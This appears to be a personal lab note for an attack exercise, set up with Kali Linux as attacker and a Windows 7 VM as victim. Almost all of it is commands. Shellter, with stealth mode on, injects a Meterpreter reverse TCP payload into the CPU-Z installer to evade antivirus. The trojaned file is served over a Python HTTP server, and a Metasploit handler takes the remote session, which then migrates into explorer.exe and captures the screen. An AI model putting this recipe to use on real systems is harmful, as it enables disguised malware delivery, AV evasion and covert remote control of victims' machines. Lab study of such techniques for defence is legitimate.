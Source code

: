 #topic Metasploit and Shellter

Using Kali Linux for attacking and Windows 7 as a Victim

---
## 2025-08-17
**Set-up:**  
- Install shellter and wine 32 on Kali Linux.
- Install cupz on Kali Linux so we can add a meterpreter reverse tcp payload in it.

**Managing the downloaded file :** 
```
cd Desktop
mkdir av-bypass
cp /home/kali/Downloads/cpu-z_1.96-en.exe av-bypass
cd av-bypass
ls
mv cpu-z_1.96-en.exe cpuz.exe
ls
```

**Adding the payload:**
```
**sudo shellter**
**A** (automatic)
PE target: **/home/kali/Desktop/av-bypass/cpuz.exe**
Enable stealth mode: **Y**
Use a listed payload or custom? : **L**
Choose Meterpreter_Reverse_TCP
**SET LHOSTS: (ifconfig to check on kali)**
**SET LPORT: 4321** (remember the port and you can add any port you like, this one is just for example)
...
Injection : Verified!

```

Sharing the file using the HTTP server:
```
(its possible only because both the VMs are on the same NAT network)
(On kali)
**`python -m http.server 8080`** 

(On Windows)
the IP of kali machine followed by the port no. on the windows browser. 
**192.168.15.8:8080** 
navigate the injected file on the server
```

Using Metasploit:
```
(On kali)
**msfconsole**
**use exploit/multi/handler**
**set payload windows/meterpreter/reverse_tcp**
**show options** ( Check the requirements )
**set LHOST 192.68.15.8** (same as we added while injection)
**set LPORT 4321** (same one)
**show options** (final check)
**exploit**

(on windows)
open the cpuz.exe file

(On Kali)
**help** (for all the available option)
( the session will be closed if the app is closed in the windows, so we migrate to another open service which is mostly open like explorer.exe)
**ps** (List running programs)
**migrate PID** (process ID)
(use **help** to explore)
one example 
**screenshare**


```